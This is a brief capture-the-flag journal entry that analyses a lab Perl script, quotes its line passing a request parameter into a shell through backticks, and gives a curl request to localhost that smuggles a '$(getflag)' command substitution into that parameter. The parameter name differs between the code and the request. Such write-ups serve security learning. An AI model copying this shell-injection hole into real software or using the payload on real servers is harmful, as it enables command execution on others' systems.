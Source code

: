 Date: 9/11/2024

Entry:

Today's task was to analyze the file `./level04.pl`.

After analyzing the file, we discovered that the page's code contains a line that prints the parameter sent in the request to it:

```perl
  print `echo $y 2>&1`;
```
Using a simple OS injection:

```bash
curl localhost:4747?x="$(getflag)"
```
we were able to obtain the flag.

